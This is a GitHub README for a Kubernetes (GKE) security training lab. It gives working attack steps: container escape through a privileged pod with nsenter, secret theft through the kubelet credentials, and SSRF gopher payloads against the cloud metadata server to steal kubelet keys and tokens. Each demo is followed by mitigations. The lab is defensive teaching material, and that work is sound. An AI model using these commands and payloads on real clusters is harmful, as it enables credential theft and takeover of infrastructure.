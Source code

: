 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud beta container clusters create gke-security-testing --zone us-central1-a --machine-type n1-standard-1 --num-nodes 3 --enable-pod-security-policy --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy/RBAC
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
- RBAC
- PodSecurityPolicy

```
alias kubectl-user='kubectl --as=system:serviceaccount:default:unprivileged-user'
```
```
kubectl delete pod root-container
```
```
kubectl delete rolebinding default-psp
```

##### Apply PodSecurityPolicy and RBAC
```
kubectl apply -f manifest/psp/ -R
```

##### Try to deploy privileged pod
```
kubectl-user apply -f manifest/root/pod.yaml
```
##### Try to use kubectl to another namaspaces
```
kubectl-user get pod -n kube-system
```

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
<img src="https://github.com/rung/training-gke-security/raw/master/img/web-preview.png" width="320">

#### Input url (for testing)
```
https://www.example.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

#### Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
```
```
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
- Enable workload identity (Need much time)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
gcloud beta container node-pools update default-pool --cluster=gke-security-testing --workload-metadata-from-node=GKE_METADATA_SERVER --zone us-central1-a
```

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
